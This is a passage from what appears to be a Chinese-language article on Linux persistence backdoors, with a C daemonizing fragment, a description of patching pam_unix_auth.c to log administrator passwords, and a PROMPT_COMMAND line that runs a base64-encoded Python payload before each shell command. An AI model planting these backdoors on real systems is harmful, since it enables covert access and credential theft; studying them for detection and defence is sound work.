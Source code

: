 ```
    chdir("/");

    /* close any open file descriptors */
    for(fd = 0, fdtablesize = getdtablesize(); fd &lt; fdtablesize; fd++)
        close(fd);

    devnullfd = open("/dev/null", 0);

    /* make STDIN ,STDOUT and STDERR point to /dev/null */
    if (devnullfd == -1) `{`
        ERR_EXIT("can't open /dev/null");
    `}`
    if (dup2(devnullfd, STDIN_FILENO) == -1) `{`
        ERR_EXIT("can't dup2 /dev/null to STDIN_FILENO");
    `}`
    if (dup2(devnullfd, STDOUT_FILENO) == -1) `{`
        ERR_EXIT("can't dup2 /dev/null to STDOUT_FILENO");
    `}`
    if (dup2(devnullfd, STDERR_FILENO) == -1) `{`
        ERR_EXIT("can't dup2 /dev/null to STDOUT_FILENO");
    `}`
    signal(SIGCHLD,SIG_IGN); 
    return;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012c2522ddb6268bbd.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a93c727d6dff50fa.png)

### <a class="reference-link" name="linux%20PAM%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95%E5%90%8E%E9%97%A8"></a>linux PAM密码记录后门

pam是一种认证机制，它可帮助管理员快速方便地配置认证方式，并且无需更改服务程序。这种后门主要是通过pam_unix_auth.c打补丁的方式潜入到正常的pam模块中，以此来记录管理员的帐号密码。

> [https://blog.51cto.com/redkey/1343316](https://blog.51cto.com/redkey/1343316)

### <a class="reference-link" name="PROMPT_COMMAND%E5%90%8E%E9%97%A8"></a>PROMPT_COMMAND后门

bash提供了一个环境变量PROMPT_COMMAND,这个变量会在你执行命令前执行一遍。

```
export PROMPT_COMMAND="lsof -i:1025 &amp;&gt;/dev/null || (python -c "exec('encoded_payload'.decode('base64'))" 2&gt;/dev/null &amp;)"
```

当然也可以使用prompt_command进行提权,参考：[https://www.anquanke.com/post/id/155943](https://www.anquanke.com/post/id/155943)

